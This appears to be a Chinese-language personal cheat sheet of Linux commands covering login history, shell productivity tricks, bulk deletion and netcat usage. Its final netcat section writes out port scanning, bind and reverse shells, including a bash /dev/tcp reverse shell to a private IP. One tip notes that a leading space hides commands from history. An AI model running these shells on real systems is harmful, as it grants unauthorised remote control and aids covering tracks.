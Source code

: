 ```yaml
---
title: Useful Command
description: This is a document about Useful Command.
---
```


# 命令笔记

## 系统相关



## 日志相关



## 安全相关

- `w -u`：查询当前当前用户和所运行的程序等信息，类似命令`whoami`或者`who am i`；
- `last`：显示用户最近登录信息。如果没有指定任何参数，则显示所有用户的历史信息。在默认情况下，这些所显示的信息将来源于` /var/log/wtmp `文件；
- `lastlog`：用于查看系统中每个用户最后的登录时间，指定用户使用`-u`选项，指定最近几天的记录，使用`-t`选项；

## 工作效率

- `fc`：用于编辑最后一条命令并保存之后自动执行该命令，应用场景，运行了一大段命令但因为一个符号或者字母输错导致命令失败，快速编辑；
- `disown -a `：将任务从"后台任务"列表(jobs命令的返回结果)之中移除,阻止当前 shell 在终止登录会话时向每个指定作业发送 HUP 信号（为啥我Ubuntu18不能用？）；
- `Ctrl + X + E`终端快捷键：打开编辑器输入命令并自动执行该命令，应用场景，一次运行多条长命令（若果运行时发生报错或者其他问题，需要在`/etc/bashrc`中添加变量`EDITOR=vim`即可）；
- `命令前加空格`：隐藏所运行的命令，使其不被记录到历史命令中（6，一直没发现）；
- `!!`：调用最近一次命令（感觉没什么卵用）；
- ` find ./ -type f -delete`: 删除大量文件，要比直接使用`-exec rm -rf {} \;`要快很多，另外，使用`rsync -a --delete <FILE_LIST>`删除文件会更快，尤其是文件数量巨大时，删除50w的小文件时，rm命令显得那么力不从心. 
- `nc`相关：

```bash
# nc 实现端口扫描
nc -u -z -w2 127.0.0.1 1-1000  # 扫描范围是 1-1000
nc -nvv 127.0.0.1 80 # 扫描80端口

# nc 实现文件传输
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz
# 传输方发文件：
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间

# nc 实现远程控制
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888

# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash

# 反弹shell
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

